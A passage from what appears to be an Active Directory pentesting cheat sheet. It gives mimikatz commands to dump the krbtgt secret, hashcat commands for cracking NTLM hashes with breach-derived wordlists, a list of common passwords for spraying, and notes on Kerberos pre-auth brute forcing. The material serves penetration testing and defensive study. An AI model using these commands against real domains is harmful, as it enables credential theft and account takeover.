 ```powershell
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

#### Crack NTLM hashes with hashcat

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:
- rockyou (available in Kali Linux)
- Have I Been Powned (https://hashes.org/download.php?hashlistId=7290&type=hfound)
- Collection #1 (passwords from Data Breaches, might be illegal to possess)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r ./rules/best64.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

:warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :
- [hashes.org](https://hashes.org/check.php)
- [hashes.com](https://hashes.com/en/decrypt/hash)

### Password spraying

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. 

> The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates. 

Most of the time the best passwords to spray are :

- `P@ssw0rd01`, `Password123`, `Password1`, `Hello123`, `mimikatz`
- `Welcome1`/`Welcome01`
- $Companyname1 :` $Microsoft1`
- SeasonYear : `Winter2019*`, `Spring2020!`, `Summer2018?`, `Summer2020`, `July2020!`
- Default AD password with simple mutations such as number-1, special character iteration (*,?,!,#)


#### Kerberos pre-auth bruteforcing

Using `kerbrute`, a tool to perform Kerberos pre-auth bruteforcing.

> Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.
